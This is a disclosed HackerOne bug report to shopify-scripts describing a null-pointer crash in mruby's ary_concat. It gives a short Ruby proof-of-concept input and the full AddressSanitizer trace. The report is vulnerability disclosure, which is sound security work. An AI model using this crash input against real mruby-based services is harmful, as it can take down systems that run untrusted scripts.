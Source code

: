 # SEGV on ary_concat

## Report Details
- **Report ID**: 296198
- **URL**: https://hackerone.com/reports/296198
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-12-08T11:21:42.518Z
- **Disclosed**: 2018-01-17T22:44:38.658Z

## Reporter
- **Username**: ahihi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
The following input demonstrates a crash:
```
def z
 return * begin
   [0].each do
    return
   end
 rescue => x
   ensure
   x.backtrace
 end
end
z
```
ASAN report
```
./mruby/bin/mruby asd.rb
ASAN:DEADLYSIGNAL
=================================================================
==43761==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x00010541ceea bp 0x7ffeea8432d0 sp 0x7ffeea8430b0 T0)
==43761==The signal is caused by a READ memory access.
==43761==Hint: address points to the zero page.
    #0 0x10541cee9 in ary_concat array.c:293
    #1 0x10541ccfa in mrb_ary_concat array.c:312
    #2 0x1054799a9 in mrb_vm_exec vm.c:2634
    #3 0x105450034 in mrb_vm_run vm.c:933
    #4 0x105486f5c in mrb_top_run vm.c:2974
    #5 0x105645ac0 in mrb_load_exec parse.y:5840
    #6 0x1056468e5 in mrb_load_file_cxt parse.y:5849
    #7 0x1053b596c in main mruby.c:227
    #8 0x7fff7ab3e144 in start (libdyld.dylib:x86_64+0x1144)

==43761==Register values:
rax = 0x0000000000000000  rbx = 0x00007ffeea843340  rcx = 0x0000100000000000  rdx = 0x0000000000000000
rdi = 0x0000614000000000  rsi = 0x0000100000000000  rbp = 0x00007ffeea8432d0  rsp = 0x00007ffeea8430b0
 r8 = 0x00001fffdd508664   r9 = 0x00007ffeea843320  r10 = 0x0000000106571788  r11 = 0xae48a47313800041
r12 = 0x00007ffeea84a3e0  r13 = 0x00007ffeea84a400  r14 = 0x00001fffdd50947c  r15 = 0x0000100000000000
AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV array.c:293 in ary_concat
==43761==ABORTING
Abort trap: 6
```

## Impact

Crashed on both mruby and mirb.

## Attachments
- asd.rb
